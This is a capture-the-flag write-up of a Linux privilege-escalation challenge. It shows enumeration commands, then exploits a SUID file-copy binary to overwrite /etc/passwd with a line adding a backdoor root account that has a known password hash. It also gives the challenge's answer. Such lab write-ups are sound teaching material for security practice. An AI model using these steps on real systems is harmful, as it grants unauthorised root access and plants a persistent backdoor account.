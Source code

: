 # Linux PrivEsc

This challenge is located in *Ostrich Saloon* on the *Island of Misfit Toys*. Speak to *Rose Mold* to start the challenge.

## Challenge Prompt

Once we open the terminal, we are greeted with the challenge prompt.

![Figure 1: Linux PrivEsc Challenge Prompt](/img/privesc-prompt.png)

We are currently running in the context of a standard non-privileged user account. Our goal is to elevate permissions to a superuser[^1] level and run an executable in the `/root` directory to complete the challenge. 

Before looking for privilege escalation vectors, we should perform some basic situational awareness checks.  

```bash
id
hostname
pwd
ls -al
cat /etc/passwd
uname -a
```

![Figure 2: Gathering Basic Information](/img/privesc-basic.png)

## Enumeration

It is time to begin enumerating the file system for privilege escalation vectors. Typically, I first search for the following low-hanging fruit privilege escalation opportunities when evaluating a Linux target:
* `sudo`-abusable packages
* Plaintext credentials stored in environment variables or commnad history transcripts
* Abusable cron jobs
* Binaries with the SUID or the SGID bit set 

### Sudo Abuse

The first privilege escalation we check for is what commands we may run with `sudo`.

```bash
sudo -l
```

![Figure 3: Checking for `sudo` Abuse Vectors](/img/privesc-sudo.png)

It appears that the `sudo` package is not installed, so we will move on to other privilege escalation techniques.

### Environment Variables

Check for any sensitive information hardcoded as environment variables with `env`.

```bash
env
```

![Figure 4: Checking for Credentials Hardcoded as Credentials](/img/privesc-env.png)

None of the environment variables appear to be representing credentials.

### Cron Job Abuse

Check what cron jobs are running on the target. Cron job scripts are stored in subdirectories of the `/etc/` directory named after their running cadence (e.g. `cron.daily` for daily scripts, `cron.weekly` for weekly scripts, etc).

```bash
ls -alh /etc/cron*
```

![Figure 5: Checking for Abusable Cron Jobs](/img/privesc-cron.png)

The `apt-compat` and `dpkg` cron jobs are default jobs in Linux and not exploitable, so we can move on.

### SUID and SGID Marked Binaries

Attempt to check for binaries that have been assigned the SUID or SGID bits.

```bash
find / -perm -u=s -type f 2>/dev/null

find / -perm -g=s -type f 2>/dev/null
```

![Figure 6: Checking for Binaries with the SUID or SGID Bits Enabled](/img/privesc-suid-sgid.png)

The binary `/usr/bin/simplecopy` stands out to me. Check its `--help` menu.

```bash
simplecopy --help
```

![Figure 7: Checking the Help Menu of `/usr/bin/simplecopy`](/img/privesc-help.png)

The utility seems to copy an item to a destination. 

If we can overwrite files with the `simplecopy` binary, then we may be able to escalate privileges by overwriting the contents of `/etc/passwd`. Validate that we can overwrite files by creating two test files and using the `simplecopy` utility on them.

```bash
echo 'test 1' > test1.txt
echo 'test 2' > test2.txt
simplecopy test2.txt test1.txt 
cat test1.txt 
```

![Figure 8: Testing out the `simplecopy` Binary](/img/privesc-test.png)

The overwrite seems to work. 

## Exploitation

Before proceeding any further let's quickly discuss with ChatGPT what the SUID bit is and why it can be used to escalate privileges.

![Figure 9: ChatGPT SUID](/img/chatgpt-suid.png)

When the SUID bit is set on an executable file, then when that file is executed by **any** user on the filesystem, the file will be executed in the context of its **owner**, not the actual user executing the file. Similarly, when the SGID bit is set on an executable, all executions of that file will be run in the context of its **group owner**. Binaries located in the `/usr/bin` directory are owned by the *root* user and *root* group--the superuser of a Linux host--and allow any user on the host to execute them. Therefore, if an executable binary in `/usr/bin` has the SUID or SGID bit set, we may be able to escalate privileges if that binary enables us to execute arbitrary commands, read confidential data, or overwrite files important to the security of the host.

This will be our attack methodology:
* We will generate a DESCrypt hash of a known plaintext that we will use as our backdoor account's password.
* We will make a copy of `/etc/passwd` and apppend a line to our copy creating a new *root* account using our hash as its password.
* We will use `simplecopy` to overwrite the contents of `/etc/passwd` with our malicious copy, then login to the backdoor account.
* With our attack concluded, we should revert our changes.

On my personal instance of Kali Linux, I used the `mkpasswd` utility to generate a DESCrypt hash, which is a supported hash algorithm by `/etc/passwd`. If this were a real engagement, we should use a strong password, since creating a backdoor account with a very weak password would introduce another critical vulnerability to the system. For this challenge however, I generated a hash for the password *yougotpwnedithappens*.

```bash
echo 'yougotpwnedithappens' | mkpasswd -m descrypt -s
```

![Figure 10: Generating a Password Hash with `mkpasswd`](/img/privesc-mkpasswd.png)

Back on the target machine, create a backup of `/etc/passwd` in case we need to roll back our changes.

```bash
cat /etc/passwd > /tmp/passwd.bak
```

![Figure 11: Creating a Backup of `/etc/passwd`](/img/privesc-backup.png)

Continue with the attack by create a writeable copy of `/etc/passwd`, append the new line to `/etc/passwd` that adds a new superuser with our generated password, and validate its contents.

```bash
cat /etc/passwd > /tmp/passwd
echo 'root2:J68/tUveONM2s:0:0:root:/root:/bin/bash' >> /tmp/passwd
cat /tmp/passwd
```

![Figure 12: Creating a Malicious Copy of `/etc/passwd`](/img/privesc-malicious-passwd.png)

With our malicious `/etc/passwd` file prepared, we can now overwrite the contents of `/etc/passwd`.

```bash
simplecopy /tmp/passwd /etc/passwd
```

![Figure 13: Overwriting the Contents of `/etc/passwd`](/img/privesc-overwrite.png)

Now when we attempt to authenticate as *root2*, we should enter a shell running in the context of *root*.

```bash
su root2 - # Enter our password via STDIN
```

![Figure 14: Opening a New Session as *root2*](/img/privesc-exploited.png)

We are now running in a shell as *root*. Move to the directory `/root` and run the binary to complete the lab. The answer to the question is "santa", of course!

```bash
cd /root
ls -al
./runmetoanswer 
```

![Figure 15: Running the `runmetoanswer` Binary](/img/privesc-runmetoanswer.png)

Finally, we should exit the *root* shell and replace the current contents of `/etc/passwd` with the `/tmp/passwd.bak` backup file we created earlier. This ensures that we left the target machine the way we left it at the beginning of the engagement. We could also consider patching the vulnerability, but that might result in unintended broken functionality, so we will leave the binary alone for now.

```bash
exit
simplecopy /tmp/passwd.bak /etc/passwd
cat /etc/passwd
```

![Figure 16: House Cleaning Operations](/img/privesc-house-cleaning.png)

[^1]: https://csrc.nist.gov/glossary/term/superuser
[^2]: https://linuxhandbook.com/suid-sgid-sticky-bit/
